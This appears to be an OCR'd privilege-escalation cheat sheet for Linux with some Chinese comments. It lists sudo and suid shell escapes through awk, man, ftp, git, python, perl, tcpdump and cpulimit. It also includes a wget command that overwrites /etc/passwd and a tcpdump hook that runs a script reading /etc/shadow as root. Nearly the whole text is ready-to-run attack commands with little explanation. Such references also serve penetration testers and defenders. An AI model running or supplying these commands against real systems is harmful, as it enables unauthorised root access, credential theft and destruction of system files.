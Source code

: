 ```bash
# overwrite localfile.
wget <url> -O /etc/passwd

# read localfile
wget -i <localfile>
```

### bash/awk/man/wget/tcpdump/ftp/git 

```
bash -p

awk 'BEGIN {system("/bin/sh")}'
sudo awk 'BEGIN {system("/bin/sh")}'

man passwd
!/bin/bash

echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

sudo ftp
ftp> !/bin/bash

sudo git help status
!/bin/bash
```

### python/perl

```
python -c "import os;os.system('/bin/bash')"

sudo python
import os
os.system("/bin/bash")
sudo python -c 'import pty;pty.spawn("/bin/bash")'

sudo perl
exec "/bin/bash";
ctr-d

#sudo 可执行脚本
echo "/bin/bash -i " >> xxx.sh
sudo ./test.sh
```

### cpulimit
+ 提权参考, https://www.hacknos.com/cpulimit-privilege-escalation/

```
#shell
cpulimit -l 100 -f /bin/sh

#suid
cpulimit -l 100 -f -- /bin/sh -p

#sudo
sudo cpulimit -l 100 -f /bin/sh
```
